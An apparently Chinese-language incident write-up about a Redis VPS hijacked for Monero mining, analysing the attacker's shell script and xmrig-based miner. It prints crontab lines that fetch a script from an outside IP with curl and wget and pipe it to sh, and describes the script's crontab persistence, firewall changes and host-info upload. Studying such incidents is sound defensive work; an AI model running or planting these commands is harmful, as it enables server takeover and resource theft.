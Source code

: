 某日，笔者收到 VPS 服务器 CPU 告警，上服务器一看，有个叫做 gpg-agentd 的进程占用大量的 CPU 资源。接着就是常规的排查，IO 情况、网络流量、内存情况、系统日志、crontab 等。当排查到 crontab 时，发现 crontab 有如下的任务：

``` bash
*/5 * * * * curl -fsSL http://84.73.251.157:81/bar.sh | sh
*/5 * * * * wget -q -O- http://84.73.251.157:81/bar.sh | sh
```

该服务器提供 Redis 资源供笔者测试使用，明显上面两个定时任务不是笔者创建的。定时任务访问外网服务器，紧急处理有三点，一是确认其他服务是否受到影响，二是注释定时任务，三是临时断外网，处理完之后，再来排查原因。

![2018-03-08-blockchain-crack-mining](https://i.imgur.com/Xf3ZNJY.jpg)

> 题图来自: © kisspng.com / Anonymous Guy Fawkes mask Gunpowder Plot / kisspng.com

## 0x01 挖矿脚本分析
***

笔者把该 Shell 脚本下载到本地，然后进行分析。该脚本包含以下函数：

* IKILLYOU
* FIRE
* DOWNLOAD
* INFO
* CRON
* CLEAN
* INIT
* ITABLE

我们 **逐个分析**。IKILLYOU 函数会 kill 掉 ssuspsplk 和 gpg-agentd 进程。CRON 函数会将文首的两个 crontab 写入到 /tmp/.bla.cron 文件，接着清空用户的 crontab，然后将 /tmp/.bla.cron 文件载入到 crontab。FIRE 函数删除掉 6379 端口相关的防火墙，允许本地连接，同时将防火墙配置持久化。INFO 函数用于收集主机信息，包含当前服务器进程、服务器硬件属性、系统内核版本、Linux 发行版本、Linux 发行的详细版本、Linux 标准规范信息、crondb 文件帮助信息（下文还会详细说明这个文件的作用），最后将以上信息上传到 84.73.251.157 指定目录。

接下来我们看下 DOWNLOAD 函数。该函数从 84.73.251.157 下载 `crondb` 和 `c.j` 文件，放到本地的 /tmp 目录。接下来执行关键的一步，**/tmp/crondb -c /tmp/c.j -B**。

我们将 crondb 文件和 c.j 放到本地，对这个两个文件进行分析。

上文提到 INFO 函数将获取 crondb 文件帮助信息。我们来执行下 INFO 函数的语句。

```
./crondb --help
Usage: xmrig [OPTIONS]
Options:
  -a, --algo=ALGO          cryptonight (default) or cryptonight-lite
  -o, --url=URL            URL of mining server
  -O, --userpass=U:P       username:password pair for mining server
  -u, --user=USERNAME      username for mining server
  -p, --pass=PASSWORD      password for mining server
  -t, --threads=N          number of miner threads
  -v, --av=N               algorithm variation, 0 auto select
  -k, --keepalive          send keepalived for prevent timeout (need pool support)
  -r, --retries=N          number of times to retry before switch to backup server (default: 5)
  -R, --retry-pause=N      time to pause between retries (default: 5)
      --cpu-affinity       set process affinity to CPU core(s), mask 0x3 for cores 0 and 1
      --cpu-priority       set process priority (0 idle, 2 normal to 5 highest)
      --no-huge-pages      disable huge pages support
      --no-color           disable colored output
      --donate-level=N     donate level, default 5% (5 minutes in 100 minutes)
      --user-agent         set custom user-agent string for pool
  -B, --background         run the miner in the background
  -c, --config=FILE        load a JSON-format configuration file
  -l, --log-file=FILE      log all output to a file
  -S, --syslog             use system log for output messages
      --max-cpu-usage=N    maximum CPU usage for automatic threads mode (default 75)
      --safe               safe adjust threads and av settings for current CPU
      --nicehash           enable nicehash/xmrig-proxy support
```